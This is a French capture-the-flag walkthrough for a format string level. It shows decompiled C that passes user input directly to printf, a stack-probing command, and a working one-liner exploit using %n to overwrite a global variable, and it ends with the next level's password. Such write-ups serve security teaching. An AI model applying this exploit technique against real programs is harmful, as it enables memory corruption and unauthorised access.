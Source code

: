 # Niveau 4: Exploitation de Format String

## Aperçu du Défi

Le niveau 4 présente une vulnérabilité de type format string. Dans ce défi, nous devons écrire une valeur spécifique (0x1025544) dans une variable globale pour révéler le mot de passe du niveau suivant.

## Analyse du Code Source

En utilisant Ghidra, on obtient un code source du binaire qui ressemble à ceci:

```c
#include <stdio.h>
#include <stdlib.h>

// Variable globale à l'adresse 0x08049810
int target_value = 0;

void print_string(char *user_input)
{
  printf(user_input);
  return;
}

void get_user_input(void)
{
  char buffer[520];

  fgets(buffer, 0x200, stdin);
  print_string(buffer);
  if (target_value == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
  }
  return;
}

int main(void)
{
  get_user_input();
  return 0;
}
```

## La Vulnérabilité

La vulnérabilité se trouve dans la fonction `print_string()` qui passe directement l'entrée utilisateur à `printf()` sans spécificateurs de format. Cela crée une vulnérabilité de format string qui nous permet de lire et d'écrire en mémoire.

## La Stratégie d'Exploitation

### 1. Trouver l'Adresse Cible

Tout d'abord, nous devons déterminer l'adresse mémoire de la variable globale `target_value`:

- Grâce à l'analyse Ghidra, nous l'avons identifiée à l'adresse 0x08049810

### 2. Localisation des Positions des Paramètres

Nous devons déterminer où notre adresse sera positionnée dans la liste des paramètres de printf:

```bash
(python -c 'print "\x10\x98\x04\x08" + "%p %p %p %p %p %p %p %p %p %p %p %p"') | ./level4
```

Sortie:

```
0xb7ff26b0 0xbffff684 0xb7fd0ff4 (nil) (nil) 0xbffff648 0x804848d 0xbffff440 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049810
```

Cela montre que notre adresse cible se trouve en position 12.

### 3. Approche d'Écriture Directe

Nous allons utiliser la vulnérabilité de format string pour:

1. Placer l'adresse cible au début de notre entrée
2. Utiliser la fonctionnalité d'accès direct aux paramètres (`%n$`) pour faire écrire printf à cette adresse
3. Imprimer exactement 16 930 116 caractères (équivalent décimal de 0x1025544) avant l'opération d'écriture

Le spécificateur de format `%n` écrit le nombre de caractères imprimés jusqu'à présent à l'adresse spécifiée par l'argument correspondant.

### 4. L'Exploit Complet

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112c%12$n"') | ./level4
```

Cette commande:

1. Place l'adresse (0x08049810) au début de notre entrée
2. Utilise `%16930112c` pour imprimer exactement 16 930 112 caractères
3. Les 4 octets de notre adresse au début ajoutent 4 caractères supplémentaires, portant le total à 16 930 116
4. Enfin, `%12$n` écrit ce compteur (16 930 116 = 0x1025544) à la 12ème position, qui est notre adresse cible

Lorsque cet exploit s'exécute avec succès, la condition `target_value == 0x1025544` devient vraie, et nous obtenons le mot de passe pour le niveau 5:

```
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
